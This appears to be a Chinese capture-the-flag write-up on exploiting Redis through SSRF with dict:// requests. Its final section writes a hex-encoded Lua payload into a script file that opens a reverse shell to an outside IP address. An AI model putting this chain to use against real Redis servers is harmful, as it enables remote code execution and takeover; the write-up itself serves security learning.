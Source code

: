 ```
    && apt install redis language-pack-id -y
COPY redis.conf /redis.conf
COPY start.sh /
RUN chmod +x /start.sh
COPY flag /flag
COPY readflag /readflag
RUN chmod 400 /flag
RUN chmod +xs /readflag
EXPOSE 80
CMD ["/start.sh"]
```  
  
  
可以看到各个项目文件的位置  
  
docker本地搭建启动后页面如下，可以访问网址  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU9HiabHicghO61zG96hG318zmXewdBpyqqlbJib1lUfjlSv5rKrgkKnq6YuInviclJ1uvrrVG2qaKZKA/640?wx_fmt=png&from=appmsg "")  
  
  
用redis-over-gopher一直打不通测试发现gopher一直timeout用不了，  
  
sec_tools/redis-over-gopher at master · firebroo/sec_tools · GitHub  
  
用dict测试访问redis端口可以  
```
dict://127.0.0.1:6379/info
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU9HiabHicghO61zG96hG318zsHehxpIhC7RaVQ5ojKz1J6JFgjAg1icDr8FiaeXm2ic21L3MARvPuKTgg/640?wx_fmt=png&from=appmsg "")  
  
  
之后发现可以通过写入script文件来代码执行  
  
lua执行系统命令函数是  
```
os.execute()
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x2 打法详解**  
  
  
#### dict协议打法  
  
写文件visit.script覆盖，写入的时候可以用16进制直接写入，防止有些特殊字符会出错  
```
dict://127.0.0.1:6379/flushall
dict://127.0.0.1:6379/config:set:dir:/scripts
dict://127.0.0.1:6379/config:set:dbfilename:visit.script
dict://127.0.0.1:6379/set:a:"\x23\x23\x4c\x55\x41\x5f\x53\x54\x41\x52\x54\x23\x23\x6f\x73\x2e\x65\x78\x65\x63\x75\x74\x65\x28\x22\x62\x61\x73\x68\x20\x2d\x63\x20\x20\x27\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x32\x34\x2e\x32\x32\x30\x2e\x33\x37\x2e\x31\x37\x33\x2f\x32\x33\x33\x33\x20\x30\x3e\x26\x31\x27\x22\x29\x23\x23\x4c\x55\x41\x5f\x45\x4e\x44\x23\x23"
dict://127.0.0.1:6379/save
```  
  